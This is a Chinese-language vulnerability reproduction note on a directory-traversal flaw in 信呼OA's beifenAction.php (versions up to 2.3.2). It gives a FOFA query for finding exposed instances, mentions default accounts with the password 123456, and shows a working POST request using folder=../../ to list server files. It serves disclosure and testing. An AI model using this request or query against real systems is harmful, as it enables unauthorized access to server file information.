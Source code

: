 # 信呼OA beifenAction.php 后台目录遍历漏洞

## 漏洞描述

信呼OA beifenAction.php文件中调用了 getfilerows方法，导致了目录遍历漏洞，攻击者通过漏洞可以获取服务器上的文件信息

## 漏洞影响

```
信呼OA <= 2.3.2
```

## FOFA

```
app="信呼协同办公系统"
```

## 漏洞复现

登录页面

![image-20220520133147020](./images/202205201331106.png)

其中默认存在几个用户存在弱口令 123456

![image-20220520133200310](./images/202205201332409.png)

存在漏洞的文件为 `webmain/system/beifen/beifenAction.php`

![image-20220520133212813](./images/202205201332896.png)

查看 `getfilerows()` 方法，在 `include/chajian/fileChajian.php`

![image-20220520133224646](./images/202205201332744.png)

该方法遍历目录下的文件名并输出，登录后，发送请求包

```
POST /index.php?a=getdatssss&m=beifen&d=system&ajaxbool=true

folder=../../
```

![image-20220520133237936](./images/202205201332997.png)